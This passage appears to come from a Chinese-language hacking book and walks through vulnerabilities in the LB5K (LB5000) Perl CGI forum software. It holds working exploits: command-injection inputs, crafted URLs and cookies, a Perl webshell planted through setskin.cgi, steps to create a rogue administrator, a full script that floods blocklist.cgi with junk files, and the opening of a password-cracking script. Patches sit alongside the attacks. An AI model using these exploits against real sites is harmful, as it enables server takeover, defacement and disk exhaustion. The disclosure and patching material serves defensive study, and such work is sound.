+   * 文章标题和内容应该过滤或者转换某些特殊字符，包括 “@”、 “#”、 “$”、 “‘”、 “|”、 “;” 等

#### 加好友功能漏洞

加好友也有问题？是的！假设当前用户为 thiz，我们进入如下 URL：
```
http://www.notfound.org/cgi-bin/friendlist.cgi
```
增加好友 “system” 和 “dir”，什么？没有该注册用户！你自己不会注册一个？！然后，我们来看一下：
```
http://www.notfound.org/cgi-bin/memfriend/thiz.cgi
```
```
C:\Inetpub\cgi-bin\memfriend 的目录
2001-11-05 17:54    <DIR>
2001-11-05 17:54    <DIR>
2001-10-31 08:54    204 index.html
2001-11-05 17:54    13 thiz.cgi

2 个文件            217 字节
2 个目录    1,937,965,056 可用字节
```

临时解决方法：
+   * 不知道！：（

#### 发消息功能漏洞

发消息也是存在安全问题的，利用方法也不难，如果你对 Perl 比较熟悉的话。
```
收件人：print
标题：;
内容：system @ARGV#
OK，提交！
```
假设你当前是用户 “thiz”，那么输入下列 URL 将执行 “dir” 命令。
```
http://www.notfound.org/cgi-bin/messages/thiz_out.cgi?dir
```
```
C:\Inetpub\cgi-bin\messages 的目录
2001-11-12 15:35    <DIR>
2001-11-12 15:35    <DIR>
2001-10-31 08:54    204 index.html
2001-11-12 15:29    38 print.out.cgi

2 个文件            242 字节
2 个目录    1,854,840,832 可用字节
```

临时解决方法：
+   * 过滤或编码标题和内容中的特殊字符，如 “;”、“#” 等

# [投票功能漏洞]

问题和“发文章功能漏洞”基本类似，不同之处在于这时产生了两个文件，扩展名为“.pl”和“.cgi”，是不是危害性更大？：P

临时解决方法：
+   * 过滤或编码“投票主题”、“投票项目”和“投票选项说明”中的特殊字符“;”、“#”等

LB5K存在的功能漏洞基本上就这么多了，也许还有一些其它的问题，如果你能发现并且愿意告诉我，那么可以和我联系！：）

虽然这里提到的问题影响范围比较小，而且可以通过正确的设置目录权限来避免，但是毕竟程序也应该做一些工作，Right？

程序开发者应该尽量想得全面一些，程序使用者也应该在使用程序之前检查一下安全性，等到被别人黑了主页再检查，或者被别人黑了主页之后怨天尤人，纯粹都是无聊至极！

好了，没有什么大的意义，权当拓展思路好了。

# 4.13 LB5K论坛remmail.cgi存在认证和过滤不严漏洞

#### 一、该漏洞涉及版本

LB5000XP所有版本，低于LB5000MX1.90（1.90已修复）的所有版本

#### 二、漏洞描述

LB是一款由www.leoboard.com开发和维护的源代码开放的CGI论坛；由于remmail.cgi存在认证和过滤不严漏洞，可能导致非法用户控制论坛或以Web权限在系统上执行任意命令。

下面是我们对这个漏洞的具体分析：

用过LB论坛的朋友应该知道，LB论坛管理中心有个“Email 群发”的特殊功能，对应的文件是mailmembers.cgi，可以同时向论坛的所有注册用户或版主发送邮件；其中发送的邮件中会包含一个链接，这个链接的对应文件是remmail.cgi；如果用户不想再收到论坛管理员的邮件，只需点击这个链接（即“退出邮件列表”），remmail.cgi便会把用户的名字写入/data/remmem.cgi，因为管理员的群发邮件是不会发给/data/remmem.cgi所罗列的用户。

但实际上/data/remmem.cgi这个文件往往是空的，原因有二：
+   1. LB程序mailmembers.cgi中已注明：为了不打扰用户，在非必要情况下，尽量不要使用此功能。管理员真正给用户群发邮件的不多；
+   2. 很多用户在论坛注册的时候不使用真实Email，当然收不到群发邮件，这样便不会把自己名字加到/data/remmem.cgi中去，就算收到了管理员邮件的一般没什么事也不会想着——“退出邮件列表”吧？！

#### 三、如何利用这个漏洞

当然，我们是在假设/data/remmem.cgi为空的情况下讨论利用方法的，但要是运气好非空也是可以成功的：）
+   1. 如果对方系统采用是“perl.exe %s %s"映射方式很容易搞定，发送如下请求就可以了：
```
GET /perl/lb5000mx/cgi-bin/remmail.cgi?member=system%20@ARGV HTTP/1.1
Host: www.target.com
Cookie: amembernamecookie=system%20@ARGV
____________________________________________
http://www.target.com/perl/lb5000mx/cgi-bin/data/remmem.cgi?dir c:
```
```
C:\ 的目录
2003-02-22  09:46  <DIR>  WINDOWS
2003-02-22  09:46  <DIR>  Program Files
2003-02-22  10:04  <DIR>  My Documents
…
```
2. 如果对方采用perlis.dll映射方式，因为remmail.cgi过滤了<>\/...，这样我们设置$member便受到了限制，因此可以考虑把往/data/remmem.cgi写入几行代码，然后利用/data/remmem.cgi无限制地另写入文件，我们可以向/data/remmem.cgi写入的代码是：
```
use CGI qw( .standard );
$a=param('a');
$b=param('b');
open(SKY,$a);
print SKY $b;
```
这样便可以利用/data/remmem.cgi随心所欲的写入任何文件了。
下面我写了个小程序可以添加一个用户名和密码都是“hack”的论坛管理员，还可以生成一个文件shell.cgi：先把一个webshell（asp、php或cgi）改名为txt文件上传，然后利用shell.cgi把webshell文件后缀改回去，例如：
http://www.target.com/LBPATH/cgi-bin/shell.cgi?s=原文件.txt&d=目标文件.asp
测试代码如下（请注意代码开头和中间有变量需要修改）：
编者语：下面这个程序的作用不可小瞧哦，我的论坛就是被PeSky在我允许的情况下通过这个程序创建了名为hack的管理员（论坛坛主）。小弟我不得不佩服啊！

#### 四、解决办法

在文件remmail.cgi中先寻找语句：
```
50 $inmembername = $query->cookie("amembernamecookie");
```
该语句一般在第50行，找到该语句后，在该行之后加入如下语句：
```
$inpassword = $query->cookie("apasswordcookie");
$inmembername=~ s/[\a\f\n\e\0\r\t\'\"\@\#\$\%\^\&\*\(\)\+\=\\\{\}\:;\'\"\,\.\/\<\>\?]//isg;
if ($inmembername eq "")
{
  $output = qq~
  <tr bgcolor="#FFFFFF">
  <td align="center">
  先请登陆，拜托！
  </td>
  </tr>
  ~; &displayoutput;
}
&getmember("$inmembername");
if ($userregistered eq "no")
```
```
perl
{$output = qq~
<tr bgcolor="#FFFFFF">
<td align="center">
开什么玩笑，这个用户根本不存在！
</td>
</tr>
~; &displayoutput;
}
if ($inpassword ne $password)
{$output = qq~
<tr bgcolor="#FFFFFF">
<td align="center">
密码不正确，难道你想做坏事？
</td>
</tr>
~; &displayoutput;
}
```
如果您觉得麻烦，也可以一不做、二不休，干脆删掉这个文件算了！当然您也可以将论坛升级到LB5000MX1.90，也可以用最新版本LB5000MX1.90的remmail.cgi文件替换论坛中的该文件。不过您不久便会发现修改这个文件，补了这个漏洞，还会有其他漏洞，所以推荐将论坛升级吧。

后记：这个漏洞可以直接添加管理员账号，尽管在LB最高版本中，这个漏洞已经补上了。但是真正将自己的LB论坛升级到这个版本的还是少数！我们在这里公布此漏洞仅是作为技术交流，同时希望这个漏洞公布之后，还没有升级的LB论坛迅速升级，或者按照上面的措施打好补丁。希望大家不要用此漏洞来进行攻击，否则一切后果自己承担！

# 4.1.4 LB5K论坛多个管理文件存在管理员验证可绕开漏洞

#### 一、漏洞涉及版本

LB5000XP所有版本，低于LB5000MX1.90（1.90已修复）所有版本均受此漏洞影响。

#### 二、漏洞描述

##### 1. 简单描述

LB是一款由www.leoboard.com开发和维护，源代码开放的cgi论坛；由于多个管理文件存在管理员验证可绕开漏洞，可能导致非法用户控制论坛或以Web权限在系统上执行任意命令。

##### 2. 具体分析

由于大量的管理文件存在相同的问题，限于篇幅，在这里我们选取其中一个文件setskin.cgi来说明问题。

熟悉LB论坛的朋友应该知道，管理菜单中有个“管理区插件设定”的特殊功能，下面我们来看看LB是如何对管理员进行验证的：
```
perl
62  $inmembername = cookie("adminname");
63  $inpassword   = cookie("adminpass");
...
```
```
68  &getmember("$inmembername");
...
70  if (($membercode eq "ad") && ($inpassword eq $password) && (lc($inmembername) eq lc($membername))) {
...
```
其中，getmember()是用来提取用户个人资料信息的函数。如果$inmembername用户存在，它将返回此用户的密码、等级等信息，但要是这个用户不存在呢？呵呵，这下可就坏了，我们还是先来看看getmember()函数的相关部分：
```
sub getmember {
    my $nametocheck = shift;
    ...
    my $filetoopen = "$lbdir" . "/$memdir/$nametocheck.cgi";
    ...
    if (!-e $filetoopen && ($nametocheck !~ /^客人/)) {  # 如果用户存在就提取
        ...
        # 省略大量提取用户信息的代码
    }
    else { $userregistered = "no"; } # 如果不存在，仅仅返回 "no"
}
```
显然，如果我们直接对setskin.cgi文件发出请求，那么这时$inmembername为空，也就是说&getmember("$inmembername")这个语句只会返回$userregistered = "no"，但setskin.cgi文件中根本就没有涉及到对$userregistered这个参数的判断，你是否想到了什么呢？是的，问题就在于此：&getmember("$inmembername")在setskin.cgi文件中“形同虚设”！我们现在回过头来分析第70行的验证代码：($inpassword eq $password)和(lc($inmembername) eq lc($membername))已经为真，因为它们都为空，只有($membercode eq "ad")尚待解决，如果这是在PHP程序中你肯定会脱口而出：我们直接指定“membercode=ad”啊！但要命的是，在这里，你同样可以这样做，因为可爱的LB在setskin.cgi的开头有这么几行：
```
@params = $query->param;
foreach (@params) {
    $theparam = $query->param($_);
    $theparam =~ s/\@/\\\@/g;
    $theparam =~ s/\$/\\\$/g;
    $theparam = &unHTML("$theparam");
    ${$_} = $theparam;
}
```
现在，我们直接在IE浏览器地址栏输入如下URL：
http://www.target.com/perl/lb5000mx/cgi-bin/setskin.cgi?membercode=ad
回车，Yeah，成功！！
…嗯，请小声点，这里并没有结束，相反，攻击还没有真正开始。
上面这个是次要的，我们做不了什么，但我们却成功地绕开了对管理员权限的验证，接下来的代码更有趣哦！

```
73  if ($action eq "process") {
...

#### 三、攻击方法

可以看出，这里的`$printme`也是我们手中可以控制的变量，通过该变量我们可以向`data/leoskin.cgi`覆盖式地写入代码。实在太好了！

哈哈，看完上面的分析，是否跃跃欲试、热血沸腾呢？既然如此，那还等什么？从上面的分析中，可以看出我们可以绕过管理员权限验证直接往`/data/leoskin.cgi`中写入代码。可写点什么好呢？要知道每次都会覆盖上一次写的内容，它可没耐心让你一行一行分几次写入，而且，它还处理了一批有用字符：

```perl
52  $theparam =~ s/\@/\\\@/g;
53  $theparam =~ s/\$/\\\$/g;
54  $theparam = &unHTML("$theparam");
...
sub unHTML {
my $text = shift;
$text =~ s/<!--(.|\n)*-->//g;
$text =~ s/\&/\&amp;/g;
$text =~ s/<script>/\&lt;script\&gt;/ig;
$text =~ s/"/\&quot;/g;
$text =~ s/  /\&nbsp;/g;
$text =~ s/</\&lt;/g;
$text =~ s/>/\&gt;/g;
$text =~ s/[\a\f\e\0\r\t]//isg;
$text =~ s/document\.cookie/documents\&\#46;\.cookie/isg;
return $text;
}
```

My God，`@&$" <>`这几个字符全军覆没，看来要动真格了。既然如此，我们只有一次性写入所有代码，提交下面URL：

`http://www.target.com/perl/lb5000mx/cgi-bin/setskin.cgi?membercode=ad&action=process&printme=use%20CGI%20qw(:standard)%3bopen(SKY,param('a'))%3bprint%20SKY%20param('b')%3b`

想想看，这时文件`data/leoskin.cgi`变成什么样了呢？对，就是如下语句：

```perl
use CGI qw(:standard); open(SKY, param('a')); print SKY param('b'); $printme = "use CGI qw(:standard); open(SKY, param('a')); print SKY param('b');";
```

以上实质起作用的是下面3个语句：

```perl
use CGI qw(:standard);
open(SKY, param('a'));
print SKY param('b');
```

注意：这里是整个攻击实质性的第一步哦，我们直接利用`setskin.cgi`受到了诸多限制，因此变换思路使用`leoskin.cgi`这个与论坛操作交流的桥梁，小弟试过几次，屡试不爽。
怎么样？这个webshell算得上短小精悍，并且功能也很酷吧？！可别小瞧它，它能做许多事哦，比如说提交如下url请求：

```perl
http://www.target.com/perl/lb5000mx/cgi-bin/data/leoskin.cgi?a=>>E:/PsYch/PERL/LB5000MX/cgi-bin/data/hack.cgi&b=hahahaha
```

此时，对方系统中执行的代码即为：

```perl
open(SKY, ">>E:/PsYch/PERL/LB5000MX/cgi-bin/data/hack.cgi");
print SKY "hahahaha";  # 很多朋友说不成功就是因为忘记了 ">>"
```

这样，你就可以在`E:/PsYch/PERL/LB5000MX/cgi-bin/data/`目录下创建一个名为`hack.cgi`的新文件，且其内容为我们提交的“hahahaha”；按照相同的方法，你可以把下面这个文件一行一行写到对方Web下一个新建文件（譬如`hacktest.cgi`）中：

```perl
$lbpath="E:/PsYch/PERL/LB5000MX/cgi-bin/";  ##### 注意：此处请修改 #####
$ad="/hack.cgi";
opendir(DIR, "$lbpath");
@files=readdir(DIR);
close(DIR);
@memdir=grep(/^members/, @files);
$hack=$lbpath.@memdir[0].$ad;
open(HACK, ">$hack");
print HACK "hack\thack\thack\tad\n";
```

声明：我可没强迫你通过浏览器来提交，你也可以自己写个小程序实现。^^
假如你把文件名定为`hacktest.cgi`，并且该文件放在`cgi-bin/data`目录下，那么你只需要在IE网址栏提交如下请求：

```perl
http://www.target.com/perl/lb5000mx/cgi-bin/data/hacktest.cgi
```

这样，一个用户名和密码都为hack的管理员就诞生了。当然，想上传个功能强劲、使用方便的webshell上去执行，不过那是你自己的工作了！
编者语：如果你觉得拿到论坛的最高管理员权限还不够，可以上传webshell后对整个网站文件操作或借此得到一个shell并提升系统权限，但这并不是本文所讨论的范围。

#### 四、解决办法

将 `lb.lib.pl` 文件中的 `getmember()`、`getmembernolock()` 两个函数的末尾添加 `$membercode=""`，即把 `else { $userregistered = "no"; }` 改为 `else { $userregistered = "no"; $membercode=""; }`

后记：笔者较早前就发现了这个漏洞，后来因有人得到了漏洞细节攻击了很多论坛后，LB作者意识到了漏洞的存在并发出了紧急安全通告，且迅速将论坛版本升级到1.90。应该强调：论坛漏洞的存在，危害的不仅仅是论坛本身，而是整个系统安全！另外，我想和大家说的是，虽然LB不断地有一些bug被揭发，但它不是变差了，而是日臻完善，LB仍然是最值得推荐、信赖的优秀BBS之一。

### 4.15 4个有问题的LB文件

### 一、setregmsg.cgi和setregrules.cgi存在无认证漏洞

##### 1. 涉及版本
- 涉及LB论坛的所有版本（就写稿日期03.4.15而言）

##### 2. 描述
- `setregmsg.cgi` 和 `setregrules.cgi` 两个文件存在无认证漏洞，导致攻击者可以直接修改论坛“注册声明”和“短消息欢迎信息”。

##### 3. 具体分析
- 在LB官方站点看到LB补丁程序，原来 `setregmsg.cgi` 和 `setregrules.cgi` 两个文件存在无认证漏洞，导致攻击者可以直接修改论坛“注册声明”和“短消息欢迎信息”，这个漏洞存在于所有版本，这可能给论坛带来一些尴尬。
- 试看如下代码（这是 `setregmsg.cgi` 中的部分程序段，`setregrules.cgi` 文件存在的问题和这一样，不再赘述）：

```perl
45  $rules      = $query->param('therules');
46  $action     = $query->param('action');
...
58  if ($action eq "process") {
60
61      $rules =~ s/\^n\^n/\n/ig;
62      $rules =~ s/\^s+/\n/ig;
63
64      $filetomake = "$lbdir" . "data/newsrmsg.dat";
65      open (FILE, ">$filetomake");
66      print FILE $rules;
67      close (FILE);
```

这个文件的问题很明显，它没有任何验证，因此利用起来也十分的简单。我们只需提交如下请求，就可以修改“注册声明”：

`http://www.target.com/perl/lb5000mx/cgi-bin/setregrules.cgi?action=process&therules=要修改的内容`

提交如下请求则可以修改“短消息欢迎信息”：

`http://www.target.com/perl/lb5000mx/cgi-bin/setregmsg.cgi?action=process&therules=要修改的内容`

内容

编者语：可以看出，在编写CGI程序的时候，对需要验证的文件一定要严密把关，以避免出现诸如本文所描述的这种情况。

### 二、blocklist.cgi、friendlist.cgi存在无验证和可写入垃圾文件漏洞

### 1．涉及版本
LB所有版本

### 2．描述
blocklist.cgi、friendlist.cgi是LB中注册用户用来添加删除好友和黑名单的文件，由于无验证，可能导致非法用户操作合法用户好友／黑名单列表，并可能向系统中写入大量垃圾文件。

### 3．具体分析
我们先来看看相关代码（这是blocklist.cgi文件的部分程序段，friendlist.cgi和它的问题一样，这里不再重复介绍）：

```perl
46  my $adduser = $q->param('adduser');
47  my $membername = $q->param('membername');
…
59  if ($inmembername eq "客人") {
60      &loginbl;
61  } else {
62      &action;   # 如果提交用户不为空调用action()
63  }
…
67  sub action {
68  if ($action eq "adduser") { &adduser($adduser); }   # 调用adduser()
…
75  &getmember($adduser);   # 被提取添加用户信息资料
76  if ($emailaddress) {    # 如果存在则执行如下操作
…
84  $filetomake = "$lbdir" . "memblock/$memberfiletitle}.cgi";
…
95  if (open(FILE, ">$filetomake"))   # 把添加的用户写入
…
```

这种和我们上面讨论的问题很相似，满足如下条件就可以实现写入：

- 1. 提交的membername不为空，可为任意值。
- 2. 提交的adduser是论坛中存在的用户。

既然如此，我们提交如下URL测试一下：

```perl
http://www.target.com/perl/lb5000mx190/cgi-bin/blocklist.cgi?action=adduser
&membername=aa&adduser=qq
```

这样，我们给aa用户添加了一个黑名单qq，我们也可以设置一个不存在的membername，例如：

```perl
http://www.target.com/perl/lb5000mx190/cgi-bin/blocklist.cgi?action=adduser
&membername=anyname&adduser=qq
```

这样便在/memblock目录下生成了一个anyname.cgi文件。
这样，我们可以写个小程序来写入多个垃圾文件，这样目标网站的硬盘资源很快便会被侵蚀。

程序代码如下：

```perl
#!/usr/bin/perl
# Codz By PsKey<PsKey@hotmail.com>
# This script can Attack LB's blocklist.cgi & friendlist.cgi
$|=1;
use Socket;
use Getopt::Std;
getopt('hpwan');
print "=====================================\n";
print "Codz By PsKey<PsKey\@hotmail.com>2003/4/2\n";
print "=====================================\n";
# 检查是否输入了完整参数
&usage unless ( defined($opt_h) && defined($opt_w) && defined($opt_a) && defined($opt_n));
$host=$opt_h;
$port=$opt_p||80;
$way=$opt_w;
$adduser=$opt_a;
$num=$opt_n;
@list=(1..$num);
print "Please wait...\n";
for ($i=0;$i<$num;$i++)
{
$b="iloveyou!".$list[$i];
print ".";
# 所构造的能写入垃圾文件的请求
$request = "GET $way?action=adduser&membername=$b&adduser=$adduser HTTP/1.1\r\n" .
           "Host: $host\n\n";
sendraw($request);   # 发送请求
}
# 用法函数
sub usage {
print qq~
Usage: $0 -h <Host> [-p <port>] -w <way> -a <adduser> -n <number>
      -h    =hostname you want to attack
      -p    =port, 80 default
      -w    =the path of the weak file
      -a    =one of LB forum's valid username
      -n    =how many files you want to create
Eg: $0 -h www.target.com -p 80 -w /cgi-bin/blocklist.cgi -a root -n 1000
~;
exit;
}
# 这个函数用来发送请求
# thanx rfp<rfp@wiretrip.net>'s sendraw
sub sendraw {
    my ($request) = @_;
    my $target;
    $target = inet_aton($host) || die("inet_aton problems");
    socket(S, PF_INET, SOCK_STREAM, getprotobyname('tcp')) || die("Socket problems\n");
if(connect(S,pack "SnA4x8", 2, $port, $target)) {
    select(S);
    $| = 1;
    print $request;
    my @in = <S>;
    select(STDOUT);
    close(S);
    return @in;
}
else {
    die("Can't connect...\n");
}
}
```

#### 三、解决方法

### 1. 对于setregmsg.cgi和setregrules.cgi文件

在setregmsg.cgi文件中（setregrules.cgi和下面一样，不另作说明）

```perl
if ($action eq "process") {
```

语句后加上

```perl
&getmember("$inmembername");
if ((!($membercode eq "ad") && ($inpassword eq $password) && (lc($inmembername) eq lc($membername)))) {
```

再在对应循环语句中加上：

```perl
}
else {
    &adminlogin;
}
```

### 2. 对于blocklist.cgi和friendlist.cgi文件

在blocklist.cgi文件中（friendlist.cgi和下面一样，不另作说明）

```perl
if ($inmembername eq "客人") {
    &loginbl;
} else {
```

后面添加如下语句：

```perl
&getmember("$inmembername");
if ($userregistered eq "no") { &error(" 你没有注册！ "); exit; }
elsif ($inpassword ne $password) { &error(" 你的密码错误！ "); exit; }
```

后记：最近我们连续公布了几个论坛漏洞，并且给出了相应的解决办法。应该说，论坛存在漏洞是不可避免的，事实也已经证明不存在任何没有BUG的软件，关键就在于我们能否及时地找到并打上相应补丁。以后我们还会继续不定期地公布一些漏洞，同时也会给出具体的解决办法，希望大家关注。

## 4.16 LB5K论坛search.cgi文件漏洞再现

早在2001年11月03日，Chen Jun（chenjun@netguard.com.cn）发布了LB5000论坛search.cgi存在Cookie变量未过滤漏洞，此漏洞当时闹得沸沸扬扬，LB5K开发者也随即“修复”了此漏洞。但未曾想到：到了2003年的今天，search.cgi文件的漏洞又卷土重来。人们认为最安全的地方实际上却是最容易忽视最危险的地方，这个新漏洞颇有戏剧色彩，难道不是吗？

注意：PsKey称之为“有史以来LB最隐蔽、颇有戏剧色彩”的漏洞哦。

##### 1. 涉及版本
- LB5K论坛当前所有版本。

##### 2. 描述
- LB5K是一款由www.leoboard.com开发和维护的源代码开放的cgi论坛；由于search.cgi变量过滤不严，可能导致非法用户注入恶意代码，进而威胁论坛或服务器安全。

### 3. 具体漏洞分析

我们首先来看看search.cgi文件中的相关代码：

```perl
...
39 for ('TYPE_OF_SEARCH', 'NAME_SEARCH', 'POST_SEARCH', 'FORUMS_TO_SEARCH', 'action', 'forum',
    'SEARCH_STRING',
    'REFINE_SEARCH', 'CUR_TIME', 'nextforum', 'start', 'JH_SEARCH', 'CAT_TO_SEARCH', 'SEARCH_DAY',
    'SEARCH_TIME') {
        next unless defined $_;
        next if $_ eq 'SEND_MAIL';
        $tp = $query->param($_);
        $tp = &unHTML("$tp");
        ${$_} = $tp;
}
...
50 $SEARCH_STRING =~ s/^system //g;   # 这行代码没有任何作用
51 $SEARCH_STRING=&stripMETA($SEARCH_STRING);  # $SEARCH_STRING变量执行了严格过滤，这里没有问题存在
...
83 $searchfilename = "$lbdir" . "search/$filename_sch.cgi";   # 保存搜索结果文件
...
146 elsif ($action eq "startsearch") {
...
179 open (SEARCH, ">$searchfilename");
    print SEARCH "$CUR_TIME\n";
    print SEARCH "$SEARCH_STRING\n";
    print SEARCH "$TYPE_OF_SEARCH,$SEARCH_DAY,$SEARCH_TIME\n";
    print SEARCH "$REFINE_SEARCH\n";
    print SEARCH "@FORUMS_TO_SEARCH,$JH_SEARCH\n";
close (SEARCH);  #！！问题就出现在这里，没有注意用户的“隐式输入”！！
```

正常情况下，我们以一普通用户登录论坛后，进入search.cgi页面搜索：

要搜索的关键字：PsKey

[PAGE 136]
请选择要搜索的论坛或分类：所有论坛，其余默认。
提交搜索，则在/search目录下会生成zz_sch.cgi文件，其内容为：
```
text
1053619083
PsKey
keyword_search,any,b
topictitle_search
all,no

```
这个文件比较乱啊，看来这给我们构造请求、消除语法错误造成了一定的麻烦！特别是$SEARCH_STRING变量（就是对应刚才添入的PsKey），搜索完毕后处在zz_sch.cgi文件的第二行，它被两个函数unHTML()和stripMETA()处理了，这两个函数代码为：
```
perl
sub unHTML {
    my $text = shift;
    $text =~ s/<!--(.|\n)*-->//g;
    $text =~ s/\&/\&amp;/g;
    $text =~ s/<script>/\&lt;.script\&gt./ig;
    $text =~ s/"/\&quot;/g;
    $text =~ s/ / \&nbsp; /g;
    $text =~ s/</\&lt;/g;
    $text =~ s/>/\&gt;/g;
    $text =~ s/[\a\f\e\0\r\t]//sg;
    $text =~ s/document.cookie/documents\&\#46\,.cookie/isg;
    return $text;
}

sub stripMETA {
    my $file = shift;
    $file =~ s/[<>`'()\\{}\a\f\n\e\0\r"'\&\;:\|\*\?]//g;
    return $file;
}

```
哎，没想到竟然过滤得这么绝，那如何消除一二三行间的语法错误？
这个时候，兄弟 Envymask 迅速用脚趾想了一下：“用and”。我知道，形势从这里就应该开始有所扭转了。
废话少说，直接提交：
```
text
http://www.target.com/perl/b5000mx200/cgi-bin/search.cgi?action=startsearch&CUR_TIME=
1053615759&SEARCH_STRING=and+system+@_ARGV&NAME_SEARCH=topictitle_search&TYPE_OF_
SEARCH=%3b%23keyword_search&POST_SEARCH=%23topictitle_search%0a%3dhead&JH_SEARCH=no
&SEARCH_DAY=any&SEARCH_TIME=b&CAT_TO_SEARCH=%23all

```
注意：大家测试的时候注意不要敲错以上代码，PsKey做了一个攻击测试脚本，此脚本对WIN+IIS的系统有效。毕竟这个漏洞是要执行seach目录下的文件的，而其他环境似乎都对这个目录权限设置得比较严格（譬如UNIX平台的Apache便会严格限制该目录的可执行权限）。

[PAGE 137]
哈哈，这下zz_sch.cgi变成了什么样子呢？
```
text
1053615759'
and system @ARGV
;#keyword_search,any,b
#topictitle_search .
=head
CAT_TO_SEARCH CUR_TIME JH_SEARCH NAME_SEARCH POST_SEARCH SEARCH_DAY SEARCH_STRING
SEARCH_TIME
TYPE_OF_SEARCH action,no

```
虽然看起来还是乱七八糟，但如果对方采用 perl.exe %s %s映射，它便能帮我们办事了哦！提交：
http://www.target.com/perl/lb5000mx200/cgi-bin/search/zz_sch.cgi?dir%20h;
返回：
```
text
H:\ 的目录

2003-02-22  10.30        <DIR>          Driver
2003-02-22  10.27        <DIR>          Software
2003-02-23  11.42        <DIR>          Music
2003-02-25  22.11        <DIR>          OSBackup
               0 个文件                 0 字节
4 个目录   5,430,214,656 可用字节

```
如果对方采用的是 perlis.dll 映射，具体利用方法还是和我过去LB系列漏洞文章中提到的思路一样。这个漏洞的攻击测试脚本我已经为大家做好了，放在随书光盘中哦。不过，这里要提醒大家千万不要用于恶意攻击，本脚本仅作为技术交流。
由于该脚本为 .pl文件，在测试前你先需要安装perl的执行环境（安装软件ActivePerl.msi在第5期光盘中有下载，也很容易从网上获取）。
这个测试脚本的用法比较简单。譬如，我们想对http://www.target.com/lb/cgi-bin/leoboard.cgi论坛进行测试，我们需要先在对方网站注册一个用户（譬如用户名为testid，密码为testpass），然后，我们就可以直接输入命令：
```
text
lb_search.pl --h www.target.com -p 80 -w /lb/cgi-bin -u testid -k testpass

```
这样，我们就只需要等待测试结果了。如果成功，你将获得一个WebShell（http://www.target.com/lb/cgi-bin/cat.cgi）和一个用户名为ilikecat、密码为catlikemed的论坛坛主用户。
请在对方网站管理员授权的情况下进行测试，不得用于恶意攻击，否则一切后果自负哦。
当然，cat.cgi这个WebShell的文件名、要创建的管理员用户名“ilikecat”和其密码大家都可以直接在lb_search.pl文件中修改。
后记：本文所提到的漏洞原理并不复杂。但是，你也不得不为之拍案叫绝。据说，PsKey发现此漏洞后，整整一天都兴奋得手舞足蹈。我想你也会跟着兴奋的，但如果你是一个LB管理员，你是不是觉得少了点什么呢？对，这个漏洞如此危险，如何打补丁？！现在就告诉你解救办法：请你打开另外一本杂志，看到《LB5K论坛search.cgi文件漏洞修复及相关防范》这篇文章了吗？对，就是它了。相信它足以消除你现在心中莫名的恐惧。

[PAGE 138]
# 4.17 LB5K论坛search.cgi文件漏洞修复及相关防范
相信看过《LB5K论坛search.cgi文件漏洞再现》的朋友都会非常吃惊：为什么曾经修复过漏洞的文件会再次出现新漏洞？其实这个新漏洞的原理很简单，但为什么一直到今天都没人发现它呢？这是因为大家保守地认为当时漏洞发现者和作者给出修复方案并修复了漏洞后，此文件已经非常安全了，漏洞就是在这种观念的庇护下隐藏了近两年之久。所以，本文首先要强调的是：关于Web应用程序的安全防范绝对不能想当然、迷信权威，而应该仔细地审查每一个文件、每一行代码，尽力做到滴水不漏。
pig_i：安全从来没有可能一步到位的，一个文件是这样，一个系统更是如此。
在你的论坛没有完全修复该漏洞前，建议你先暂时关闭论坛的搜索功能，以减轻该漏洞带来的威胁，待修复后再开放该功能。
pig_j：呵呵，其实大家完全没有必要关闭该功能哦！PsKey下面这不就告诉了你解决办法吗？
LB5K这次的漏洞出在search.cgi文件上，由于该文件有大量变量只作了简单的限制，导致非法用户利用论坛搜索功能时，可以巧妙地构造恶意代码插入到搜索生成的文件中，然后调用生成的文件发动攻击。说白了，问题还是因为程序没有很好检查用户输入，变量未严格过滤，search.cgi文件只对部分变量做了如下简单处理：
```
perl
43  $tp = $query->param($_);
44  $tp = &unHTML("$tp");
...
49  $SEARCH_STRING =~ s/^system_//g;
50  $SEARCH_STRING = &stripMETA($SEARCH_STRING);

```
$SEARCH_STRING变量还说得过去，其他的就用unHTML()函数转换了一部分元字符，这明显不够。因此，我们修复这个漏洞，需要做的便是检查用户输入、对变量作严格过滤。
在如下代码中可以找到我们需要限制的变量：
```
perl
178  open (SEARCH, ">$searchfilename");
179  print SEARCH "$CUR_TIME\n";
180  print SEARCH "$SEARCH_STRING\n";
181  print SEARCH "$TYPE_OF_SEARCH,$SEARCH_DAY,$SEARCH_TIME\n";
182  print SEARCH "$REFINE_SEARCH\n";
183  print SEARCH "@FORUMS_TO_SEARCH,$JH_SEARCH\n";
184  close (SEARCH);

```
变量实在是太多了，一一处理实在烦琐，为了安全，我们可以过滤得绝一点，把所有的特殊字符全部去除，用下面这个小函数security()来做到这点：
```
perl
sub security {
    my $str = shift;
    $str =~ s/[\a\b\f\n\e\0\r\t\'\"\`\@\#\$\%\^\&\*\(\)\+\=\\\{\}\,\'\:\"\.\/\<\>\?]//isg;
    return $str;
}

```
逗号还是得保留，因为搜索多个关键字之间是使用逗号“,”分隔的。需要注意的是，这样做之后可能会给使用上带来一点点异常，但毕竟安全第一。把如上的小函数放置在search.cgi文件末尾，然后在原文件第44行即语句`$tp = &unHTML("$tp");`之后加上如下代码：
```
perl
$tp = &security("$tp");

```
pig_j：上面的那一大串密密麻麻的，你是不是会敲得很郁闷呢？一不小心可就会敲错了哦！如果您实在没有工夫自己补这个文件，也没有关系。因为在我的威逼利诱之下，PsKey已经把打好补丁的search.cgi文件放在光盘中了，毕竟读者至上哦。
做完了这些之后，大家就不要担心坏人使坏了，因为他们提交的数据全部要被我们的security()函数审查。
看到这里，有些朋友可能就有疑问了，如果所有的文件都这样过滤一下，那样不就杜绝安全漏洞而达到绝对安全了吗？其实不然，安全固然重要，如此一来，程序员大可不必为安全问题烦心了，但我们也要考虑普通用户使用过程中的感受，执行严格的过滤后会给程序的功能带来一定的限制，并且给用户的使用也会造成一些不便。因此，我们需要在安全性和可用性之间找一个平衡点，不要企盼有什么一劳永逸的安全解决方案，而应该把安全意识贯穿到设计程序、编写代码的整个过程中，谨小慎微，尽量做到程序功能强大的同时，安全方面也要足够牢固。

#### 三、测试代码

下面是一个通过register.asp文件来破解用户口令的小程序(很快的哦)。当然，稍作修改更可用于其他存在相同缺陷的文件或场合：

```
perl
#!/usr/bin/perl
#Codz By PsKey<PsKey@hotmail.com>2003/3/29
#This Script can crack BBSXP user's password

$|=1;
use Socket;
use GetOpt::Std;
getopt('hpwu');

print "=====================================\n";
print "Codz By PsKey<PsKey@hotmail.com>2003/3/29\n";
print "=====================================\n";

# 检查是否输入了必需参数
&usage unless ( defined($opt_h) && defined($opt_w) && defined($opt_u));

$host=$opt_h;
